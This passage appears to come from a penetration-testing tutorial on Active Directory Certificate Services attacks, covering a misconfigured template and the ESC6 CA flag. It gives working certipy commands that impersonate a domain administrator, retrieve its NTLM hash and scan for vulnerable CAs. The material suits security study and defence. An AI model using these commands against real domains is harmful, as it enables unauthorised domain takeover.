 ```
DOMAIN ADMIN ACHIEVED
```

**Real-World Example:**

**Vulnerable Template Configuration:**
```
Template Name: "VulnTemplate"
Purpose: Certificate Template
Enrollment Permissions: Domain Users (Read, Enroll)
Subject Name: Supply in Request  ← VULNERABLE!
Enhanced Key Usage: Client Authentication
Manager Approval: No
```

**Exploitation:**
```bash
# Request certificate specifying administrator as SAN
certipy req -u 'lowpriv@corp.local' -p 'password' \
    -ca 'CORP-CA' \
    -template 'VulnTemplate' \
    -upn 'administrator@corp.local' \
    -dc-ip 192.168.1.10

# Output: Certificate saved to administrator.pfx

# Authenticate as administrator
certipy auth -pfx administrator.pfx -dc-ip 192.168.1.10

# Output: Administrator NTLM hash retrieved
# Use hash for Pass-the-Hash → Full Domain Admin
```

**Time to Compromise:** < 5 minutes

---

#### ESC6 - EDITF_ATTRIBUTESUBJECTALTNAME2 Flag

**The Vulnerability:**

- Certificate Authority has a dangerous flag enabled: `EDITF_ATTRIBUTESUBJECTALTNAME2`
- This flag allows **ANY certificate template** to specify SAN in the request
- Even templates that don't explicitly allow it!

**Checking for ESC6:**
```bash
certipy find -u 'user@corp.local' -p 'password' -dc-ip 192.168.1.10 -vulnerable

# If ESC6 exists, output shows:
# [!] Certificate Authority 'CORP-CA' has the 'EDITF_ATTRIBUTESUBJECTALTNAME2' flag set
```

**Exploitation:**
```bash
# Use ANY enrollable template (even "User" default template)
certipy req -u 'user@corp.local' -p 'password' \
    -ca 'CORP-CA' \
    -template 'User' \
    -upn 'administrator@corp.local' \
    -dc-ip 192.168.1.10
```
